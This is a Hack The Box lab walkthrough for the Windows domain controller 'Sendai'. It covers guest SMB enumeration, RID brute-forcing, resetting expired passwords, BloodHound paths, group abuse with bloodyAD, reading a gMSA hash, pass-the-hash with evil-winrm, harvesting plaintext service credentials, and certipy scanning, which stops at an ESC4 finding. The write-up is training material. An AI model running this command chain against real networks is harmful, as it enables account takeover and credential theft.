





# HTB: Sendai


| Field | Details |
| - | - |
| Platform | [Hack The Box](https://app.hackthebox.com/machines/Sendai) |
| Difficulty | Medium |
| OS | Windows |
| Author | ByteFragment |
| Date | November 20th 2026 |


## Enumeration.

Before we do anything lets create three files:

1. **credentials.txt** where we will store valid username/passwd combinations

2. **users.txt** where we will store all usernames we come across

3. **pass.txt** where we will store all passwords we come across

Having separate files for usernames and passwords in addition to a valid credentials file helps us enumerate for things like password reuse if applicable.

### NMAP

Let's start off by port scanning the target using nmap via the command:

```
sudo nmap -sC -sV -T4 -p- 10.129.234.66 -oN nmap
```

This gives us the open TCP ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap` so we can reference it later if needed without running a whole new scan:

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-11-16 02:37:11Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.sendai.vl
| Not valid before: 2026-11-16T02:02:53
|_Not valid after:  2027-11-16T02:02:53
443/tcp   open  ssl/https?
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: DNS:dc.sendai.vl
| Not valid before: 2023-07-18T12:39:21
|_Not valid after:  2024-07-18T00:00:00
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sendai.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.sendai.vl
| Not valid before: 2026-11-16T02:02:53
|_Not valid after:  2027-11-16T02:02:53
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sendai.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.sendai.vl
| Not valid before: 2026-11-16T02:02:53
|_Not valid after:  2027-11-16T02:02:53
|_ssl-date: TLS randomness does not represent time
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sendai.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc.sendai.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:dc.sendai.vl
| Not valid before: 2026-11-16T02:02:53
|_Not valid after:  2027-11-16T02:02:53
|_ssl-date: TLS randomness does not represent time
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=dc.sendai.vl
| Not valid before: 2026-11-15T02:12:03
|_Not valid after:  2027-05-17T02:12:03
| rdp-ntlm-info: 
|   Target_Name: SENDAI
|   NetBIOS_Domain_Name: SENDAI
|   NetBIOS_Computer_Name: DC
|   DNS_Domain_Name: sendai.vl
|   DNS_Computer_Name: dc.sendai.vl
|   DNS_Tree_Name: sendai.vl
|   Product_Version: 10.0.20348
|_  System_Time: 2026-11-16T02:38:01+00:00
|_ssl-date: 2026-11-16T02:38:20+00:00; +1s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
51384/tcp open  msrpc         Microsoft Windows RPC
60620/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
60621/tcp open  msrpc         Microsoft Windows RPC
63680/tcp open  msrpc         Microsoft Windows RPC
63699/tcp open  msrpc         Microsoft Windows RPC
63715/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

From the nmap results, we can see that the target machine is running an `HTTP/HTTPS` server on port 80/443, `DNS` server on port 53, `LDAP` on port 389, `kerberos` on port 88, `SMB` share on port 445, an `RDP` server on port 3389 and `windows remote management` on port 5985. We can also see that the Host is named  `DC` and the domain is `sendai.vl` so lets add `dc.sendai.vl` and `sendai.vl` to our /etc/hosts file.

Visiting the HTTP server in the browser we find it contains the basic `Windows Server` homepage:



### SMB Enumeration

Let's use `NetExec (nxc)` to enumerate the SMB service running on the machine.

Since we do not have any credentials we can first see of the SMB service supports anonymous or guest logins:

```
┌──(kali㉿kali)-[~/labs_htb/Sendai]
└─$ nxc smb 10.129.234.66 -u '' -p '' --shares
SMB         10.129.234.66   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                             
SMB         10.129.234.66   445    DC               [+] sendai.vl\:######## 
SMB         10.129.234.66   445    DC               [-] Error enumerating shares: STATUS_ACCESS_DENIED


┌──(kali㉿kali)-[~/labs_htb/Sendai]
└─$ nxc smb 10.129.234.66 -u 'guest' -p '' --shares
SMB         10.129.234.66   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                             
SMB         10.129.234.66   445    DC               [+] sendai.vl\guest:######## 
SMB         10.129.234.66   445    DC               [*] Enumerated shares
SMB         10.129.234.66   445    DC               Share           Permissions     Remark
SMB         10.129.234.66   445    DC               -----           -----------     ------
SMB         10.129.234.66   445    DC               ADMIN$                          Remote Admin
SMB         10.129.234.66   445    DC               C$                              Default share
SMB         10.129.234.66   445    DC               config                          
SMB         10.129.234.66   445    DC               IPC$            READ            Remote IPC
SMB         10.129.234.66   445    DC               NETLOGON                        Logon server share 
SMB         10.129.234.66   445    DC               sendai          READ            company share
SMB         10.129.234.66   445    DC               SYSVOL                          Logon server share 
SMB         10.129.234.66   445    DC               Users           READ            
```

As we can see the SMB service does not allow anonymous logins to list shares but DOES allow guest logins to do so.

From the shares listed we can see that as the `guest` user we have `READ` permissions over the `sendai` company share.

Lets enumerate the share using the nxc `spider_plus` module :

```
┌──(kali㉿kali)-[~/labs_htb/Sendai]
└─$ nxc smb 10.129.234.66 -u 'guest' -p '' -M spider_plus
SMB         10.129.234.66   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                             
SMB         10.129.234.66   445    DC               [+] sendai.vl\guest:######## 
SPIDER_PLUS 10.129.234.66   445    DC               [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.129.234.66   445    DC               [*]  DOWNLOAD_FLAG: False
SPIDER_PLUS 10.129.234.66   445    DC               [*]     STATS_FLAG: True
SPIDER_PLUS 10.129.234.66   445    DC               [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.129.234.66   445    DC               [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.129.234.66   445    DC               [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.129.234.66   445    DC               [*]  OUTPUT_FOLDER: /home/kali/.nxc/modules/nxc_spider_plus
SMB         10.129.234.66   445    DC               [*] Enumerated shares
SMB         10.129.234.66   445    DC               Share           Permissions     Remark
SMB         10.129.234.66   445    DC               -----           -----------     ------
SMB         10.129.234.66   445    DC               ADMIN$                          Remote Admin
SMB         10.129.234.66   445    DC               C$                              Default share
SMB         10.129.234.66   445    DC               config                          
SMB         10.129.234.66   445    DC               IPC$            READ            Remote IPC
SMB         10.129.234.66   445    DC               NETLOGON                        Logon server share 
SMB         10.129.234.66   445    DC               sendai          READ            company share
SMB         10.129.234.66   445    DC               SYSVOL                          Logon server share 
SMB         10.129.234.66   445    DC               Users           READ            
SPIDER_PLUS 10.129.234.66   445    DC               [+] Saved share-file metadata to "/home/kali/.nxc/modules/nxc_spider_plus/10.129.234.66.json"
```

This command enumerates the SMB server and saves metadata about the found files to a .json file:

```
---SNIP---

"sendai": {
        "incident.txt": {
            "atime_epoch": "2023-07-18 10:34:15",
            "ctime_epoch": "2023-07-18 10:30:59",
            "mtime_epoch": "2023-07-18 10:34:15",
            "size": "1.34 KB"
        },
        "it/Bginfo64.exe": {
            "atime_epoch": "2023-07-18 06:16:43",
            "ctime_epoch": "2023-07-18 06:16:42",
            "mtime_epoch": "2023-07-18 06:16:46",
            "size": "2.65 MB"
        },
        "it/PsExec64.exe": {
            "atime_epoch": "2023-07-18 06:16:38",
            "ctime_epoch": "2023-07-18 06:16:37",
            "mtime_epoch": "2023-07-18 06:16:46",
            "size": "813.94 KB"
        },
        "security/guidelines.txt": {
            "atime_epoch": "2023-07-18 06:18:33",
            "ctime_epoch": "2023-07-18 06:17:33",
            "mtime_epoch": "2023-07-18 06:18:33",
            "size": "4.43 KB"
        }
    }
```

This section of the json file contains ths contents of the `sendai` share and as we can see it contains two .txt files and two .exe files. Let's download the `incident.txt` file using the nxc `--get-file` feature:

```
┌──(kali㉿kali)-[~/labs_htb/Sendai]
└─$ nxc smb 10.129.234.66 -u 'guest' -p '' --share sendai --get-file incident.txt incident.txt 
SMB         10.129.234.66   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                             
SMB         10.129.234.66   445    DC               [+] sendai.vl\guest:######## 
SMB         10.129.234.66   445    DC               [*] Copying "incident.txt" to "incident.txt"
SMB         10.129.234.66   445    DC               [+] File "incident.txt" was downloaded to "incident.txt"
```

Now let's see what the file contains:

```
┌──(kali㉿kali)-[~/labs_htb/Sendai]
└─$ cat incident.txt 
Dear valued employees,

We hope this message finds you well. We would like to inform you about an important security update regarding user account passwords. Recently, we conducted a thorough penetration test, which revealed that a significant number of user accounts have weak and insecure passwords.

To address this concern and maintain the highest level of security within our organization, the IT department has taken immediate action. All user accounts with insecure passwords have been expired as a precautionary measure. This means that affected users will be required to change their passwords upon their next login.

We kindly request all impacted users to follow the password reset process promptly to ensure the security and integrity of our systems. Please bear in mind that strong passwords play a crucial role in safeguarding sensitive information and protecting our network from potential threats.

If you need assistance or have any questions regarding the password reset procedure, please don't hesitate to reach out to the IT support team. They will be more than happy to guide you through the process and provide any necessary support.

Thank you for your cooperation and commitment to maintaining a secure environment for all of us. Your vigilance and adherence to robust security practices contribute significantly to our collective safety. 
```

The file contains a message from the IT support team regarding a recent pentest that revealed many users are using weak or insecure passwords thus requiring the IT team to force these users to change their passwords on next login.

We can attempt to get a list of valid users using the nxc `--rid-brute` function and pipe it into a file:

```
nxc smb 10.129.234.66 -u 'guest' -p '' --rid-brute > rid_enum.txt
```

Then we can pull out all the usernames using grep by first filtering for all lines that contain `SidTypeUser` and then pulling out the username:

```
┌──(kali㉿kali)-[~/labs_htb/Sendai]
└─$ grep -E 'SidTypeUser|\[\+\]' rid_enum.txt | grep -oP '(?<=\\)[^\s:(]+'                
guest
Administrator
Guest
krbtgt
DC$
sqlsvc
websvc
Dorothy.Jones
Kerry.Robinson
Naomi.Gardner
Anthony.Smith
Susan.Harper
Stephen.Simpson
Marie.Gallagher
Kathleen.Kelly
Norman.Baxter
Jason.Brady
Elliot.Yates
Malcolm.Smith
Lisa.Williams
Ross.Sullivan
Clifford.Davey
Declan.Jenkins
Lawrence.Grant
Leslie.Johnson
Megan.Edwards
Thomas.Powell
mgtsvc$
```

We now have a list of valid users!

Lets add these usernames into a file and attempt log into the SMB service using a blank password:

```
┌──(kali㉿kali)-[~/labs_htb/Sendai]
└─$ nxc smb 10.129.234.66 -u users.txt -p '' --continue-on-success
SMB         10.129.234.66   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                             
SMB         10.129.234.66   445    DC               [-] sendai.vl\Administrator:######## STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [+] sendai.vl\Guest:######## 
--- SNIP ---
SMB         10.129.234.66   445    DC               [-] sendai.vl\Elliot.Yates:######## STATUS_PASSWORD_MUST_CHANGE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Malcolm.Smith:######## STATUS_LOGON_FAILURE 
--- SNIP ---
SMB         10.129.234.66   445    DC               [-] sendai.vl\Megan.Edwards:######## STATUS_LOGON_FAILURE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\Thomas.Powell:######## STATUS_PASSWORD_MUST_CHANGE 
SMB         10.129.234.66   445    DC               [-] sendai.vl\mgtsvc$:######## STATUS_LOGON_FAILURE 
```

Doing so we find two users who’s login attempt returns an interesting error `STATUS_PASSWORD_MUST_CHANGE`:

- `Elliot.Yates`

- `Thomas.Powell`

We can then use the nxc [change-password](https://www.netexec.wiki/smb-protocol/change-user-password) module to change their passwords, let's begin with Thomas:

```
┌──(kali㉿kali)-[~/labs_htb/Sendai]
└─$ nxc smb 10.129.234.66 -u Thomas.Powell -p '' -M change-password -o NEWPASS=Password123
SMB         10.129.234.66   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                             
SMB         10.129.234.66   445    DC               [-] sendai.vl\Thomas.Powell:######## STATUS_PASSWORD_MUST_CHANGE 
CHANGE-P... 10.129.234.66   445    DC               [+] Successfully changed password for Thomas.Powell
```

Now let's validate that the change was successful by attemptint to authenticate to the SMB service:

```
┌──(kali㉿kali)-[~/labs_htb/Sendai]
└─$ nxc smb 10.129.234.66 -u Thomas.Powell -p Password123                     
SMB         10.129.234.66   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                             
SMB         10.129.234.66   445    DC               [+] sendai.vl\Thomas.Powell:######## 
```

Fantastic! Let's use these new credentials to enumerate the system further using [bloodhound-python](https://www.kali.org/tools/bloodhound.py/).

### Bloodhound-Python

Using `Thomas.Powell`'s credentials we can run the following bloodhound command to collect and analyze Active Directory data from the target machine:

```
┌──(kali㉿kali)-[~/labs_htb/Sendai]
└─$ bloodhound-python -c All -d sendai.vl -u Thomas.Powell -p  'Password123' -dc dc.sendai.vl -ns 10.129.234.66
INFO: BloodHound.py for BloodHound LEGACY (BloodHound 4.2 and 4.3)
INFO: Found AD domain: sendai.vl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc.sendai.vl
INFO: Testing resolved hostname connectivity dead:beef::2813:bc01:9507:e8ab
INFO: Trying LDAP connection to dead:beef::2813:bc01:9507:e8ab
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc.sendai.vl
INFO: Testing resolved hostname connectivity dead:beef::2813:bc01:9507:e8ab
INFO: Trying LDAP connection to dead:beef::2813:bc01:9507:e8ab
INFO: Found 27 users
INFO: Found 57 groups
INFO: Found 2 gpos
INFO: Found 5 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc.sendai.vl
INFO: Done in 00M 19S
```

This will give us a series of .json files that we will need to upload to bloodhound which we can start using the bloodhound-start command.

We can then proceed with the upload:



The data will take a minute or two to be fully processes but when it is we can then search for the `Thomas.Powell` user object, right click on the object, and select `Add to Owned`. We can then repeat this process for `Elliot.Yates`:



We can now use one of BloodHound's most useful features, the `Cypher Queries`. Though you can write your own, BloodHound comes with a series of `Saved Queries` we can use immediately. The one we will focus on here is the `Shortest paths from Owned objects`, which provides us with an attack path starting at any object we have marked as Owned:



Running the query we can see that both Thomas and Elliot are members of the `SUPPORT` AD Group and this group has `GenericAll` permissions over the `ADMSVC` group. The `ADMSVC` group then has `ReadGMSAPassword` permissions over the `MGTSVC$` user meaning it can read its password.

So we have our attack path. We will use the `SUPPORT` groups `GenericAll` permissions add the Thomas user to the `ADMSVC` group and then use that groups `ReadGMSAPassword` permissions to read the password of the `MGTSVC$` user. To do all of this we will use [bloodyad](https://www.kali.org/tools/bloodyad/).

## FootHold

Here is a very useful Bloody-AD [cheatsheet](https://seriotonctf.github.io/BloodyAD-Cheatsheet/index.html).

Using the template from the cheat sheet we can add Thomas to the ADMSVC group:

```
┌──(kali㉿kali)-[~/labs_htb/Sendai]
└─$ bloodyad --host dc.sendai.vl -d sendai.vl -u Thomas.Powell -p Password123 add groupMember ADMSVC Thomas.Powell
[+] Thomas.Powell added to ADMSVC
```

It looks like the command was successful but we can verify this by running the command:

```
┌──(kali㉿kali)-[~/labs_htb/Sendai]
└─$ bloodyad --host dc.sendai.vl -d sendai.vl -u Thomas.Powell -p Password123 get membership Thomas.Powell

--- SNIP ---

distinguishedName: CN=admsvc,OU=admsvc,DC=sendai,DC=vl
objectSid: S-1-5-21-3085872742-570972823-736764132-1129
sAMAccountName: admsvc

distinguishedName: CN=support,OU=support,DC=sendai,DC=vl
objectSid: S-1-5-21-3085872742-570972823-736764132-1131
sAMAccountName: support
```

Great! We have now verified that Thomas.Powell has been added to the correct group and can now use that groups `ReadGMSAPassword` permissions to read the password of the `MGTSVC$` user

```
┌──(kali㉿kali)-[~/labs_htb/Sendai]
└─$ bloodyad --host dc.sendai.vl -d sendai.vl -u Thomas.Powell -p Password123 get object 'MGTSVC$' --attr msDS-ManagedPassword

distinguishedName: CN=mgtsvc,CN=Managed Service Accounts,DC=sendai,DC=vl
msDS-ManagedPassword.NT: REDACTED
msDS-ManagedPassword.B64ENCODED: REDACTED
```

We now have the NT Hash of the `MGTSVC$` user which we can use to log into the target machine with `evil-winrm` using a `pass-the-hash` attack:

```
┌──(kali㉿kali)-[~/labs_htb/Sendai]
└─$ evil-winrm -i dc.sendai.vl -u 'MGTSVC$' -H REDACTED
                                        
Evil-WinRM shell v4.1
                                        
Info: Establishing connection to remote endpoint
                                        
Info: Connection successful
*Evil-WinRM* PS C:\Users\mgtsvc$\Documents> whoami
sendai\mgtsvc$
*Evil-WinRM* PS C:\Users\mgtsvc$\Documents> hostname
dc
```

We now have user access to the machine! The user.txt flag can be found in the `C:\` directory.

## Lateral Movement

The `C:\` directory also contains a `config` directory that contains a single `.sqlconfig` file. This file contains credentials for the `sqlsvc` user:

```
*Evil-WinRM* PS C:\config> type "C:/config/.sqlconfig"
Server=dc.sendai.vl,1433;Database=prod;User Id=sqlsvc;Password=<REDACTED>;
```

Let's note these credentials and continue enumerating by checking for running serveis on the machine using evil-winrm's `services` function:

```
*Evil-WinRM* PS C:\Users\mgtsvc$\Documents> services

Path                                                                                                  Privileges Service                      
----                                                                                                  ---------- -------  

--- SNIP ---    

"C:\Program Files\Microsoft SQL Server\90\Shared\sqlwriter.exe"                                            False SQLWriter                    
C:\WINDOWS\helpdesk.exe -u clifford.davey -p REDACTED -k netsvcs                                     False Support                      
C:\Windows\servicing\TrustedInstaller.exe                                                                  False TrustedInstaller             

--- SNIP ---               
   
```

In the `Path` of one of the running services we see the plain text credentials for `clifford.davey`, let's quickly verify that these are valid using nxc:

```
┌──(kali㉿kali)-[~/labs_htb/Sendai]
└─$ nxc smb dc.sendai.vl -u clifford.davey -p '<REDACTED>'                                                     
SMB         10.129.234.66   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:sendai.vl) (signing:True) (SMBv1:None) (Null Auth:True)                                                                                                                             
SMB         10.129.234.66   445    DC               [+] sendai.vl\clifford.davey:######## 
```

## Privilege Escalation

Great! Going back to `BloodHound` we see that `CLIFFORD.DAVEY` is a member of the `CA-OPERATORS` group:



The CA is a reference to the `Certificate Authority` which we can now access using the `clifford.davey` credentials and the [certipy-ad](https://www.kali.org/tools/certipy-ad/) tool.

### Certipy-AD

First we should scan the CA looking for any vulnerable certificate templates:

```
┌──(kali㉿kali)-[~/labs_htb/Sendai]
└─$ certipy-ad find -u clifford.davey@10.129.234.66 -p '<REDACTED>' -dc-ip 10.129.234.66 -vulnerable
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Finding issuance policies
[*] Found 16 issuance policies
[*] Found 0 OIDs linked to templates
[*] Retrieving CA configuration for 'sendai-DC-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Successfully retrieved CA configuration for 'sendai-DC-CA'
[*] Checking web enrollment for CA 'sendai-DC-CA' @ 'dc.sendai.vl'
[*] Saving text output to '20261120152818_Certipy.txt'
[*] Wrote text output to '20261120152818_Certipy.txt'
[*] Saving JSON output to '20261120152818_Certipy.json'
[*] Wrote JSON output to '20261120152818_Certipy.json'
```

The results are saved as both a .txt file and a .json file. We can view the json file contents by cat-ing the file and piping the output into `jq` a command line json parser:

```
┌──(kali㉿kali)-[~/labs_htb/Sendai]
└─$ cat 20261120152818_Certipy.json | jq 

--- SNIP ---

"Certificate Templates": {
    "0": {
      "Template Name": "SendaiComputer",
      "Display Name": "SendaiComputer",
      "Certificate Authorities": [
        "sendai-DC-CA"
      ],
      "Enabled": true,
      "Client Authentication": true,
      "Enrollment Agent": false,
      "Any Purpose": false,
      "Enrollee Supplies Subject": false,
      "Certificate Name Flag": [
        134217728
      ],
      "Enrollment Flag": [
        32
      ],

--- SNIP ---

      "[!] Vulnerabilities": {
        "ESC4": "User has dangerous permissions."
      }
    }
  }
```

